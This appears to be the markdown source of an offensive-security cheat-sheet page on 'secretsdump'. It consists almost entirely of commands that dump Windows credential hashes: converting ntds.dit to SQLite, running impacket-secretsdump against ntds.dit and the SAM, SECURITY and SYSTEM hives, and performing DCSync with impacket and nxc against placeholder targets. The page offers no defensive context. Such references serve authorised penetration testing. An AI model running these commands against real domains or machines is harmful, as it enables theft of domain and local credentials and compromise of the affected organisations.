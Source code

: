 ```yaml
---
title: "secretsdump"
date: 2024-7-2
tags: ["secretsdump", "impacket", "active directory", "ad", "domain controller", "Windows", "ntds.dit", "hive", "hashes", "nxc", "dcsync"]
---
```


### Convert ntds.dit to .sqlite

```console
ntdsdotsqlite ntds.dit --system SYSTEM -o ntds.sqlite
```

<small>*Ref: [ntdsdotsqlite](https://github.com/almandin/ntdsdotsqlite)*</small>

### With ntds.dit and SYSTEM hive

{{< tab set1 tab1 active >}}impacket{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

{{< /tabcontent >}}

### With SAM, SYSTEM and SECURITY Hives

{{< tab set2 tab1 active >}}impacket{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```

{{< /tabcontent >}}

### With Dcsync right

{{< tab set3 tab1 active >}}impacket{{< /tab >}}
{{< tab set3 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
impacket-secretsdump '<USER>:<PASSWORD>@<TARGET>'
```

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

```console
nxc smb -dc-ip <DC> -u <USER> -H <HASH> --ntds
```

{{< /tabcontent >}}
